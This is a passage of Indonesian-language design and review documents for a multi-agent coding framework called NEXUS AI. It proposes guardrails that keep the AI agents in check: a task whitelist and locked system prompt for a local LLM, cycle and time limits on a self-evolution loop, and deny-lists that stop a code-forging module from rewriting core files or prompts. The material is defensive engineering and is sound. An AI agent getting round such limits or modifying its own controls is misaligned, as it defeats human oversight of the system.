├── MemoryPipeline.js     → Existing: OK, tapi perlu event hooks
├── Machinist.js          → Existing: Forge/build capability
└── Distiller.js          → Existing: Knowledge distillation
```

---

# PHASE 2 — Memory Governance

> **Tujuan:** Memory menjadi single source of truth dengan konsistensi penuh.

## 2.1 Restrukturisasi Memory Folder

Ubah dari:
```text
memory/
├── long_term/
└── short_term/
```

Menjadi:
```text
memory/
├── raw/          ← input mentah, belum diproses
├── normalized/   ← data yang sudah dibersihkan & diformat
├── semantic/     ← index semantik berdasarkan tag
├── distilled/    ← knowledge final yang sudah diverifikasi (pindah dari long_term)
├── operational/  ← data kerja aktif (pindah dari short_term)
└── archived/     ← history lama (SESSION_HISTORY_ARCHIVE)
```

**Catatan:** `memory/long_term/` (berisi NEXUS_HUB_INDEX.md) → pindah ke `memory/distilled/`

---

## 2.2 Memory Validation Layer

Tambahkan validasi wajib sebelum data masuk ke memori:

**Fitur yang harus ada:**
- Checksum validation (hash setiap file untuk deteksi perubahan)
- Versioning (setiap update memiliki nomor versi)
- Conflict detection (cegah duplicate semantic yang bertentangan)
- Rollback support (bisa kembali ke versi sebelumnya)
- Memory audit logs (setiap mutasi memori tercatat)

**File yang perlu dibuat:**
- `agent/core/MemoryGovernor.js` — layer validasi memori

---

## 2.3 Selesaikan Collision di Workflow

`workflow/internal/nexus-pipeline.md` masih memiliki konflik `IF { } ELSE { }` yang belum diselesaikan.

**Aksi:** Merge kedua opsi menjadi satu dokumen final yang bersih.

---

# PHASE 3 — Orchestration Hardening

> **Tujuan:** Orkestrasi deterministik, tidak ada direct coupling antar agent.

## 3.1 Event Bus Architecture

Ganti direct invocation di `NexusEngine.js` dengan event-driven pattern:

```text
SEBELUM:
NexusEngine → langsung panggil SchemaGuard, QueryOptimizer, Scanner

SESUDAH:
NexusEngine → emit event → EventBus → route ke agent yang tepat
```

**Event yang didefinisikan:**

```text
AUDIT_REQUESTED
AGENT_TASK_ASSIGNED
AGENT_TASK_COMPLETED
AGENT_TASK_FAILED
MEMORY_UPDATE_REQUESTED
SCANNER_TRIGGERED
SCANNER_FINISHED
PLAN_GENERATED
EXECUTION_STARTED
EXECUTION_COMPLETED
CYCLE_FINISHED
```

**File yang perlu dibuat:**
- `agent/core/EventBus.js` — publisher/subscriber sederhana
- Update `NexusEngine.js` untuk emit event, bukan direct call

---

## 3.2 Retry Logic & Failure Handling

Setiap agent execution wajib memiliki:

```text
- timeout (sudah ada di beberapa tempat, perlu distandarisasi)
- max retry: 3x
- fallback action saat gagal (log + skip vs halt)
- crash isolation (1 agent gagal tidak crash seluruh cycle)
```

---

## 3.3 Pengisian Agent Workflows

Folder `agent/workflows/internal/` dan `agent/workflows/external/` **kosong**.

**Isi yang perlu dibuat:**

```text
agent/workflows/internal/
├── audit-[workflow.md](../standards/NEXUS_WORKFLOW.MD)       ← alur audit standar
├── planning-[workflow.md](../standards/NEXUS_WORKFLOW.MD)    ← alur planning dari audit result
└── execution-[workflow.md](../standards/NEXUS_WORKFLOW.MD)   ← alur eksekusi task

agent/workflows/external/
├── harvest-[workflow.md](../standards/NEXUS_WORKFLOW.MD)     ← alur harvest dari external project
└── distribution-[workflow.md](../standards/NEXUS_WORKFLOW.MD) ← alur distribusi hasil
```

---

# PHASE 4 — Plugin & Scanner Isolation

> **Tujuan:** Scanner dan plugin tidak bisa merusak core system.

## 4.1 Plugin Manifest System

Setiap scanner di `agent/tools/scanners/` wajib memiliki manifest:

```json
{
  "name": "cyber-security",
  "version": "1.0.0",
  "permissions": ["read_files"],
  "entrypoint": "cyber-security.js",
  "execution_timeout": 30000,
  "output_schema": "findings[]"
}
```

**File yang perlu dibuat:**
- `agent/tools/scanners/manifest.json`

---

## 4.2 Execution Sandbox

Scanner dan forged tools WAJIB dijalankan dalam execution context yang terisolasi.

**Aturan ketat:**
- Scanner tidak boleh menulis ke `agent/core/`
- Scanner tidak boleh memodifikasi `memory/distilled/`
- Scanner tidak boleh self-register permission baru
- Output scanner HANYA boleh berupa `findings[]` array

**File yang perlu dibuat:**
- `agent/core/SandboxExecutor.js` — wrapper eksekusi terisolasi

---

# PHASE 5 — Logging & Observability

> **Tujuan:** Setiap event dan mutasi sistem tercatat dengan standar yang konsisten.

## 5.1 Dedicated Logging Structure

Buat folder logs/ yang terdedikasi:

```text
logs/
├── agents/         ← log per agent execution
├── orchestration/  ← log siklus orchestration
├── memory/         ← log mutasi memori
├── scanners/       ← log hasil scanner
├── plugins/        ← log forged plugin execution
└── errors/         ← centralized error log
```

---

## 5.2 Mandatory Log Fields

Setiap log entry wajib memiliki:

```json
{
  "timestamp": "ISO8601",
  "level": "INFO | WARNING | ERROR | CRITICAL",
  "agent": "agent_name",
  "task_id": "UUID",
  "duration_ms": 0,
  "event": "event_name",
  "message": "human readable",
  "metadata": {}
}
```

**File yang perlu dibuat:**
- `agent/core/Logger.js` — centralized logger dengan struktur standar

---

# PHASE 6 — Core vs Capability Split

> **Tujuan:** Pemisahan tegas antara sistem inti yang protected dan lapisan kapabilitas yang extensible.

## 6.1 Pembagian Zona

```text
CORE (protected — tidak boleh dimodifikasi oleh forged tools):
agent/core/
├── NexusEngine.js
├── Orchestrator.js       ← baru
├── EventBus.js           ← baru
├── Contract.js
├── TaskProtocol.js       ← baru
├── MemoryGovernor.js     ← baru
├── SandboxExecutor.js    ← baru
├── Logger.js             ← baru
└── MemoryPipeline.js

CAPABILITY LAYER (extensible — boleh ditambah/dimodifikasi):
agent/tools/
├── scanners/
└── [tool files]
```

---

# Urutan Implementasi (Priority Order)

```text
URGENT (Phase 1 & 5 dulu):
1. TaskProtocol.js          ← foundation komunikasi antar agent
2. Logger.js                ← observability sebelum apapun dieksekusi
3. logs/ folder structure   ← tempat log ditulis

PENTING (Phase 2 & 3):
4. MemoryGovernor.js        ← stabilkan memori sebelum scale
5. EventBus.js              ← decoupling orchestration
6. Restrukturisasi memory/  ← folder governance
7. Selesaikan collision di nexus-pipeline.md

PELENGKAP (Phase 4 & 6):
8. SandboxExecutor.js       ← keamanan plugin
9. manifest.json scanner    ← deklarasi permission
10. Isi agent/workflows/    ← dokumentasi alur kerja
```

---

# Definition of Done — "Multi-Agent Stabil"

Sistem dianggap **STABIL** jika semua kondisi ini terpenuhi:

```text
✅ Setiap agent memiliki contract yang jelas (input/output/permission)
✅ Semua komunikasi antar agent melalui TaskProtocol
✅ Orchestrator tidak memanggil agent secara langsung (via EventBus)
✅ Memory memiliki validasi dan versioning
✅ Setiap eksekusi tercatat di logs/ dengan format standar
✅ Scanner tidak bisa merusak core system (sandbox)
✅ 1 agent gagal tidak menghentikan seluruh cycle
✅ Semua agent workflow terdokumentasi di agent/workflows/
```

---

# Final Technical Positioning

```text
NEXUS = Modular Semantic Multi-Agent Framework
Target: Stable Multi-Agent Orchestration
Bukan: AGI / Autonomous Runtime / Self-Evolving System
```

---

*Generated via Loop Scan | Scan Date: 2026-05-07 | Version: 1.0*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, performance, vcs, api]

### 📘 KNOWLEDGE: NEXUS_NEXUS REVIEW GUARD RAILS.MD

# 🔍 NEXUS AI — Full Scan, Review & Multi-Agent Guardrail
> **VERSION**: v1 | **Last Updated**: 26/05/2026


> **Reviewer**: Senior AI Engineer Analysis  
> **Tanggal**: 2026-05-13  
> **Versi Engine**: v3.2.0  
> **Status**: ACTIONABLE

---

## BAGIAN 1 — SCAN HASIL (Apa Yang Berubah)

### Module Baru Yang Ditemukan

| Module                 | Fungsi                                          | Status                            |
| :--------------------- | :---------------------------------------------- | :-------------------------------- |
| `LocalIntelligence.js` | Integrasi Ollama untuk local LLM reasoning      | ✅ Ada, ⚠️ Perlu guardrail        |
| `RedisMemory.js`       | High-speed in-memory cache, singleton           | ✅ Solid                          |
| `Contract.js`          | Data contracts: AuditReport, ImplementationPlan | ✅ Sangat bagus                   |
| `TaskProtocol.js`      | Standarisasi task antar agent dengan trace_id   | ✅ Production-grade               |
| `WorktreeManager.js`   | Git worktree isolation per feature              | ⚠️ Git commands masih di-comment  |
| `LaravelArchitect.js`  | Otomatis inject trait, tambah migration column  | ✅ Useful, scope terbatas         |
| `SemanticEngine.js`    | TF-IDF vector search + Redis cache              | ✅ Implementasi dari upgrade plan |

### Yang Sudah Diperbaiki dari Versi Sebelumnya

- ✅ `SemanticEngine.js` sudah diimplementasi dan terhubung ke `RedisMemory`
- ✅ `Contract.js` memberikan type safety antar modul
- ✅ `TaskProtocol.js` menambah `trace_id` dan `correlation_id` — observability naik level
- ✅ `Orchestrator.js` sekarang pakai `TaskProtocol` — task lifecycle terlacak
- ✅ Boundary docs sudah ada: `NEXUS INTERNAL CORE HARD BOUNDARY` dan `NEXUS eksternal boundary`

---

## BAGIAN 2 — REVIEW KUALITAS

### 2.1 Yang Benar-Benar Kuat

**`Contract.js` — ini game changer**

```javascript
static validate(data) {
    const required = ['id', 'target', 'findings'];
    const missing = required.filter(field => !data[field]);
    if (missing.length > 0) throw new Error(`Contract Violation: Missing fields [${missing.join(', ')}]`);
}
```

Dengan adanya Contract, antar module sekarang punya formal interface. Ini yang membedakan sistem amatir dengan sistem yang bisa di-maintain jangka panjang.

---

**`TaskProtocol.js` — multi-agent communication standard**

```javascript
this.trace_id = `TRACE-${Date.now()}-${Math.random().toString(36).slice(2, 7)}`;
this.correlation_id = context.correlation_id || this.trace_id;
```

`trace_id` + `correlation_id` ini pola enterprise. Kalau ada task gagal di agent ke-7, lu bisa trace balik ke asal task-nya. Ini critical untuk debugging multi-agent.

---

**`RedisMemory.js` — graceful degradation**

```javascript
} catch (e) {
    console.warn('⚠️ Redis: Connection failed. Falling back to file-based memory.');
    this.isConnected = false;
}
```

Pattern ini benar — kalau Redis tidak ada, sistem tetap jalan. Tidak crash. Ini defensive engineering yang matang.

---

### 2.2 Yang Perlu Perhatian

**`WorktreeManager.js` — semua logic masih di-comment**

```javascript
// execSync(`git worktree add -b feature/${featureName} ${targetPath} main`, ...);
// execSync(`git checkout main && git merge feature/${featureName}`, ...);
```

Modul ini ada tapi tidak aktif. Kalau dipanggil sekarang, tidak akan melakukan apa-apa. Ini bisa menyesatkan karena log-nya bilang "merging" padahal tidak.

**Rekomendasi**: Tambahkan flag `this.isActive = false` dan guard di setiap method, atau hapus dulu sampai siap diaktifkan.

---

**`LocalIntelligence.js` — autonomous reasoning tanpa batas**

```javascript
async generate(prompt, systemPrompt = "You are Nexus AI, a senior software architect.") {
    // ...
    const response = await axios.post(`${this.baseUrl}/generate`, {
        model: this.model,
        prompt: prompt,
        stream: false,
        options: { temperature: 0.2, num_ctx: 4096 }
    });
    return response.data.response;
}
```

Modul ini memberi NEXUS kemampuan untuk **reason secara bebas** via local LLM. Tidak ada scope limit, tidak ada output validation, tidak ada human checkpoint. Ini adalah pintu menuju arah AGI yang perlu dibatasi (lihat Bagian 3).

---

**`[alur agi.md](../other/NEXUS_ALUR AGI.MD)` — diagram yang menjadi concern**

```
A[LLM] --> B[Agent] --> C[AGI]
```

Diagram ini memetakan AGI sebagai target evolution NEXUS. Ini perlu direvisi dengan pagar yang jelas di mana NEXUS **harus berhenti**.

---

### 2.3 Inkonsistensi Yang Ditemukan

| Masalah                                                        | Lokasi                     | Dampak                 |
| :------------------------------------------------------------- | :------------------------- | :--------------------- |
| `WorktreeManager` aktif tapi tidak fungsional                  | WorktreeManager.js         | ⚠️ Misleading          |
| `LocalIntelligence` tidak punya output schema                  | LocalIntelligence.js       | 🔴 Uncontrolled output |
| `[alur agi.md](../other/NEXUS_ALUR AGI.MD)` memetakan AGI sebagai endpoint                   | documentation/mermaid/     | ⚠️ Directional risk    |
| `[RECURSIVE_EVOLUTION_ARCHITECT.md](../other/NEXUS_RECURSIVE_EVOLUTION_ARCHITECT.MD)` pakai kata "infinite loop"  | documentation/nexus_rules/ | ⚠️ Framing risk        |
| `SemanticEngine` tidak di-import di `NexusEngine.js` yang baru | agent/core/                | 🔴 Dead code           |

---

## BAGIAN 3 — GUARDRAIL: PAGAR MULTI-AGENT

Ini adalah dokumen pagar resmi yang harus dijadikan bagian dari `NEXUS INTERNAL CORE`.

---

### 🗺️ Posisi Target NEXUS Yang Benar

```
LLM → Tool Agent → Workflow Agent → [NEXUS: Multi-Agent Framework] → ⛔ BERHENTI DI SINI
                                                                      ↓
                                                           Autonomous Runtime → AGI
```

NEXUS adalah **Modular Semantic Multi-Agent Framework**. Bukan AGI. Bukan self-aware system. Target akhir adalah **reliable, stable, observable multi-agent orchestration**.

---

### 🔒 3 Pagar Utama Yang Wajib Ada

---

#### PAGAR 1 — Batasi LocalIntelligence

`LocalIntelligence.js` adalah komponen paling berisiko karena memberikan kemampuan reasoning bebas ke sistem. Harus dibatasi dengan scope contract.

**Implementasi Pagar:**

```javascript
// agent/core/LocalIntelligence.js — TAMBAHKAN ini

// Whitelist: satu-satunya task yang boleh dilakukan LocalIntelligence
const ALLOWED_TASKS = [
    'review_code_quality',
    'suggest_refactor',
    'explain_error',
    'validate_migration_schema'
];

async generate(prompt, taskType, systemPrompt) {
    // 1. WAJIB: Validate task type
    if (!ALLOWED_TASKS.includes(taskType)) {
        throw new Error(
            `LocalIntelligence Boundary Violation: ` +
            `Task "${taskType}" tidak ada dalam whitelist. ` +
            `Allowed: [${ALLOWED_TASKS.join(', ')}]`
        );
    }

    // 2. WAJIB: Hard token limit — tidak boleh diubah
    const MAX_TOKENS = 512;

    // 3. WAJIB: System prompt dikunci — tidak boleh di-override dari luar
    const LOCKED_SYSTEM_PROMPT =
        `You are a TALL Stack code reviewer. ` +
        `Your role is LIMITED to: ${ALLOWED_TASKS.join(', ')}. ` +
        `You MUST NOT generate code autonomously, make architectural decisions, ` +
        `or perform any action outside your defined role. ` +
        `Respond in structured format only.`;

    if (!this.isAvailable) await this.checkAvailability();
    if (!this.isAvailable) return null;

    const response = await axios.post(`${this.baseUrl}/generate`, {
        model: this.model,
        prompt: prompt,
        system: LOCKED_SYSTEM_PROMPT, // system prompt TIDAK bisa di-override
        stream: false,
        options: { temperature: 0.1, num_ctx: MAX_TOKENS } // temperature rendah = lebih deterministik
    });

    // 4. WAJIB: Validate output schema sebelum dikembalikan
    return this.validateOutput(response.data.response, taskType);
}

validateOutput(output, taskType) {
    // Output harus ada dan dalam bentuk string
    if (!output || typeof output !== 'string') return null;

    // Output tidak boleh terlalu panjang (anti-hallucination runaway)
    if (output.length > 2000) {
        console.warn(`⚠️ LocalIntelligence: Output terlalu panjang (${output.length} chars). Truncated.`);
        return output.substring(0, 2000) + '\n...[TRUNCATED BY BOUNDARY GUARD]';
    }

    return output;
}
```

---

#### PAGAR 2 — Batasi EvolutionPiper (Anti-Infinite Loop)

`[RECURSIVE_EVOLUTION_ARCHITECT.md](../other/NEXUS_RECURSIVE_EVOLUTION_ARCHITECT.MD)` mendeskripsikan "infinite loop" yang bisa jalan tanpa batas. Ini harus diberi batas eksplisit.

**Implementasi Pagar:**

```javascript
// agent/core/EvolutionPiper.js — TAMBAHKAN di constructor

constructor(rootPath) {
    this.rootPath = rootPath;

    // ⛔ HARD LIMIT: Maksimal iterasi per session
    // Ini TIDAK BOLEH diubah secara programatik
    this.MAX_EVOLUTION_CYCLES = 25; // Satu phase = max 25 project
    this.currentCycle = 0;

    // ⛔ HARD LIMIT: Maksimal waktu eksekusi total
    this.MAX_SESSION_MINUTES = 120; // 2 jam
    this.sessionStartTime = null;
}

// TAMBAHKAN method guard ini — dipanggil di awal setiap evolve()
async checkEvolutionBoundary() {
    // Cek cycle limit
    if (this.currentCycle >= this.MAX_EVOLUTION_CYCLES) {
        throw new Error(
            `🚧 EVOLUTION BOUNDARY: Reached maximum cycles (${this.MAX_EVOLUTION_CYCLES}). ` +
            `Manual review required before next phase. ` +
            `Run 'nexus distill' then reset cycle counter manually.`
        );
    }

    // Cek time limit
    if (this.sessionStartTime) {
        const elapsed = (Date.now() - this.sessionStartTime) / 60000;
        if (elapsed > this.MAX_SESSION_MINUTES) {
            throw new Error(
                `🚧 EVOLUTION BOUNDARY: Session exceeded ${this.MAX_SESSION_MINUTES} minutes. ` +
                `Session paused for resource safety.`
            );
        }
    }

    this.currentCycle++;
    console.log(`🔄 Evolution Cycle: ${this.currentCycle}/${this.MAX_EVOLUTION_CYCLES}`);
}

// TAMBAHKAN di awal method evolve() atau spawnSandbox():
async spawnSandbox(projectName, tags) {
    await this.checkEvolutionBoundary(); // ← WAJIB dipanggil pertama
    // ... rest of logic
}
```

---

#### PAGAR 3 — Batasi Machinist (Anti-Self-Modification)

`Machinist.forge()` bisa generate file `.js` baru dan inject ke sistem. Ini harus dibatasi hanya ke folder yang aman.

**Implementasi Pagar:**

```javascript
// agent/core/Machinist.js — TAMBAHKAN ini

// Whitelist folder yang boleh di-write oleh Machinist
// TIDAK BOLEH ada path di luar ini
const FORGE_ALLOWED_PATHS = [
    'agent/tools/scanners/',  // ✅ Scanner plugins — aman
];

// Blacklist absolut — TIDAK PERNAH boleh disentuh Machinist
const FORGE_FORBIDDEN_PATHS = [
    'agent/core/',            // ❌ Core engine
    'agent/main.js',          // ❌ Entry point
    'cli.js',                 // ❌ CLI
    'agent/prompts/',         // ❌ Agent prompts (bisa manipulasi behavior)
    'memory/distilled/',      // ❌ Knowledge HUB (hanya boleh lewat Distiller)
];

async forge(name, wisdomPath) {
    // 1. Validate output path
    const outputPath = `agent/tools/scanners/${name.toLowerCase()}-scanner.js`;

    const isAllowed = FORGE_ALLOWED_PATHS.some(p => outputPath.startsWith(p));
    const isForbidden = FORGE_FORBIDDEN_PATHS.some(p => outputPath.startsWith(p));

    if (!isAllowed || isForbidden) {
        throw new Error(
            `🚧 MACHINIST BOUNDARY VIOLATION: ` +
            `Attempted to forge into forbidden path: "${outputPath}". ` +
            `Forge is restricted to: [${FORGE_ALLOWED_PATHS.join(', ')}]`
        );
    }

    // 2. Validate wisdom source — harus dari HUB, bukan file arbitrary
    const absoluteWisdom = path.resolve(wisdomPath);
    const absoluteHub = path.resolve('memory/distilled/');

    if (!absoluteWisdom.startsWith(absoluteHub)) {
        throw new Error(
            `🚧 MACHINIST BOUNDARY VIOLATION: ` +
            `Wisdom source must be from memory/distilled/. ` +
            `Got: "${wisdomPath}"`
        );
    }

    // 3. Generated code tidak boleh require() module core
    // (dicek setelah generate, sebelum write)
    const generatedCode = await this.generateScannerCode(name, wisdomPath);
    const forbiddenImports = ['NexusEngine', 'MemoryPipeline', 'Orchestrator', 'EvolutionPiper'];

    for (const forbidden of forbiddenImports) {
        if (generatedCode.includes(forbidden)) {
            throw new Error(
                `🚧 MACHINIST BOUNDARY VIOLATION: ` +
                `Generated scanner tried to import core module: "${forbidden}". ` +
                `Scanners must be isolated.`
            );
        }
    }

    // Lanjut ke forge setelah semua validasi lulus
    // ... rest of logic
}
```

---

### 📋 Checklist Guardrail — Status Current

| Guardrail                             | Status          | Action                             |
| :------------------------------------ | :-------------- | :--------------------------------- |
| `LocalIntelligence` task whitelist    | ❌ Belum ada    | Implementasi Pagar 1               |
| `LocalIntelligence` output validation | ❌ Belum ada    | Implementasi Pagar 1               |
| `EvolutionPiper` cycle limit          | ❌ Belum ada    | Implementasi Pagar 2               |
| `EvolutionPiper` session time limit   | ❌ Belum ada    | Implementasi Pagar 2               |
| `Machinist` path whitelist            | ❌ Belum ada    | Implementasi Pagar 3               |
| `Machinist` forbidden imports check   | ❌ Belum ada    | Implementasi Pagar 3               |
| `WorktreeManager` active flag         | ❌ Misleading   | Tambahkan `isActive = false` guard |
| `[alur agi.md](../other/NEXUS_ALUR AGI.MD)` — diagram direvisi      | ⚠️ Perlu revisi | Lihat Bagian 4                     |

---

## BAGIAN 4 — REVISI DIAGRAM AGI

Diagram `[alur agi.md](../other/NEXUS_ALUR AGI.MD)` saat ini:

```
LLM → Agent → AGI
```

**Harus diganti menjadi:**

```
LLM → Tool Agent → Workflow Agent → Multi-Agent Framework → ⛔ BOUNDARY
                                          ↑
                                      [NEXUS v3.x]
```

Dan file `documentation/mermaid/[alur agi.md](../other/NEXUS_ALUR AGI.MD)` sebaiknya direname menjadi `alur nexus boundary.md` dengan konten:



---

## BAGIAN 5 — SARAN PRIORITAS

### 🔴 Lakukan Sekarang

1. **Implementasi 3 Pagar** di atas — bisa dikerjakan dalam 1 sesi
2. **Fix `SemanticEngine` import** di `NexusEngine.js` — sekarang dead code
3. **Tambahkan `isActive = false` guard** di `WorktreeManager.js`

### 🟡 Sprint Berikutnya

4. **Revisi `[alur agi.md](../other/NEXUS_ALUR AGI.MD)`** menjadi boundary diagram
5. **Tambahkan `nexus status` command** yang menampilkan:
   - Current evolution cycle count
   - Session time elapsed
   - Guardrail status (active/inactive)
6. **Aktifkan `WorktreeManager`** dengan uncomment git commands + testing

### 🟢 Enhancement

7. **Buat `NEXUS_GUARDRAIL_LOG.md`** yang otomatis di-append setiap kali guardrail terpicu — audit trail yang penting
8. **Tambahkan unit test untuk setiap pagar** — `TDDGuard` harus reject kode yang bypass guardrail

---

## KESIMPULAN

NEXUS saat ini ada di posisi yang **tepat sebagai Multi-Agent Framework**. Arsitekturnya sudah solid, boundary docs sudah ada. Yang kurang adalah **enforcement di level kode** — boundary-nya baru ada di dokumentasi, belum di `throw new Error()`.

Tiga pagar di dokumen ini mengubah boundary dari dokumentasi menjadi **kode yang enforce dirinya sendiri**.

> Sistem yang aman bukan sistem yang punya dokumen larangan.  
> Sistem yang aman adalah sistem yang **secara teknis tidak bisa** melanggar batasnya sendiri.

---

> **METADATA (NEXUS SEMANTIC TAGS)**: [security, architecture, tdd, standards, guardrail, multi-agent]  
> **Status**: READY_FOR_IMPLEMENTATION  
> _Senior AI Engineer Review | NEXUS v3.2.0_

### 📘 KNOWLEDGE: NEXUS_NEXUS_PIPELINE_MAP.MD

# 🧠 NEXUS AI — Pipeline Architecture Map
> **VERSION**: v1 | **Last Updated**: 26/05/2026


> **Scan Date**: 2026-05-11 | **Engine**: Antigravity AI Engineer  
> **Version**: Human-AI Nexus v3.1.0 | **Mode**: Extreme Scan

---

## 1. 📦 Struktur Makro Project

```
NEXUS AI/
├── cli.js                      ← Entry Point (Global CLI: `nexus <cmd>`)
├── agent/
│   ├── main.js                 ← Command Router (run/audit/harvest/distill/forge)
│   ├── core/                   ← OTAK UTAMA ENGINE
│   ├── prompts/                ← Agent Prompt Bank (internal + external)
│   ├── tools/                  ← Specialized Tools & Scanners
│   ├── workflows/              ← Skill Workflow Definitions
│   └── scripts/                ← Automated Loop Scripts
├── memory/
│   ├── raw/                    ← Audit mentah masuk di sini
│   ├── normalized/             ← Data setelah sanitasi
│   ├── semantic/               ← Indexed data berdasarkan tag
│   ├── distilled/              ← KNOWLEDGE HUB (master wisdom)
│   ├── operational/            ← Records, sessions, link cache
│   ├── archived/               ← Backup & rotasi file
│   └── short_term/             ← Cache sementara (link_cache.json)
├── knowledge/                  ← Session archives TDD & test logs
├── golden/harvest/             ← Zona staging harvest dari project external
├── documentation/              ← Output laporan (audit, planning, summary)
├── logs/                       ← Observability (agents/orchestration/errors)
├── tests/
│   ├── TDD/                    ← Test runner
│   └── sandboxes/              ← Lab environment (EvolutionPiper)
└── config/.env.example         ← Konfigurasi dasar
```

---

## 2. 🔄 PIPELINE UTAMA: Full Cycle



---

## 3. 🧬 PIPELINE DISTILLATION (Perintah: `nexus distill`)



---

## 4. 🌾 PIPELINE HARVESTING (Perintah: `nexus harvest <path>`)



---

## 5. 🔥 PIPELINE FORGE (Perintah: `nexus forge <Name> <wisdom.md>`)



---

## 6. 🧠 LAYER MEMORI — Hierarki & Alur Data

```
INPUT DATA
    │
    ▼
memory/raw/                  ← Audit reports mentah (report_agentid_AUDITID.json/md)
    │
    ▼ [MemoryPipeline.archiveAuditReports()]
memory/operational/          ← Session records, archive index
    │
    ▼ [Harvest → cleanseContent()]
memory/distilled/            ← KNOWLEDGE HUB (sumber kebenaran)
    │
    ├── standards/           ← Prinsip, protokol, kontrak
